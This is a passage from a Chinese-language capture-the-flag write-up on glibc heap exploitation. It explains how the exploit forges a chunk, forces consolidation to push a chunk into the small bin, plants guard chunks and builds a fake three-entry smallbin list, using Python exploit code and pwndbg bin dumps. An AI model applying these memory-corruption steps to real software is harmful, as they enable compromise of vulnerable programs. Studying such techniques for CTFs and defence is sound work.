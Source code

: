 然而，如果运行这段代码，会发现我们没有通过位于 unsorted bin 循环中的检测，也就是 top chunk 之后那两个哨兵堆块想要解决的那些检测。具体来说，我们想要放入 small bin 中的那个堆块之后的堆块（也就是 0x56cefdc442f0+0x90），其 PREV_INUSE bit 是 1，这就不能通过 `malloc()` 的检查。

为了通过这个检查，EXP 采用的方法也很精彩：在将目标堆块释放进入 unsorted bin 的时候，在其之前构造一个 fake chunk 并触发两个堆块的合并，从而将目标堆块起始位置前移。这样一来，我们就有机会在目标堆块+0x90 的位置提前布置好两个哨兵堆块。

```python
add(1, b'a' * 0x10 + pack(0) + pack(0x31) + 2*pack(heap_base+0x2c0) + b'a'*0x10 + pack(0x30) + pack(0xd00)) # fake chunk to be consolidated with target chunk
free()
add(2, b'a'*0x50 + pack(0x90) + pack(0x10) + pack(0) + pack(0x11)) # 2 guard fake chunk
free() # trigger a consolidate with the 0x31 fake chunk in chunk-0x40, now we have a fake chunk in unsorted bin
add(1, b'a'*0x10 + pack(0) + pack(0x91))
sla(b"> ", b'0'*0xfff+b'2') # trigger malloc to the big-unsorted-bin-loop and put the fake chunk in chunk-0x40 into small bin
```

此时各个 bin 的状态：

```pwndbg
pwndbg> bins
tcachebins
empty
fastbins
empty
unsortedbin
all: 0x5fb67444a380 —▸ 0x7978dba19ce0 (main_arena+96) ◂— 0x5fb67444a380
smallbins
0x90: 0x5fb67444a2c0 —▸ 0x7978dba19d60 (main_arena+224) ◂— 0x5fb67444a2c0
largebins
empty
```

可以看到，我们已经成功把一个堆块送入了 small bin。接下来就可以通过溢出来伪造一条 smallbin 的 bk 链表了。这里我们就伪造出一条有三个堆块的链表，以备后续使用。（不能再多了）

```python
# construct a fake smallbin-linked list
add(1, flat([
    0, 0,
    0, 0x91, heap_base+0x2c0, heap_base+0x2c0+0x20,
    0, 0x91, heap_base+0x2c0, heap_base+0x2c0+0x40,
    0, 0x91, heap_base+0x2c0+0x20, libc_base+0x219d60,
]))
free()
```

此时，smallbin 数据如下：

```pwndbg
smallbins
0x90 [corrupted]
FD: 0x5df1191ee2c0 ◂— 0x5df1191ee2c0
BK: 0x5df1191ee2c0 —▸ 0x5df1191ee2e0 —▸ 0x5df1191ee300 —▸ 0x74294ce19d60 (main_arena+224) ◂— 0x5df1191ee2c0
```

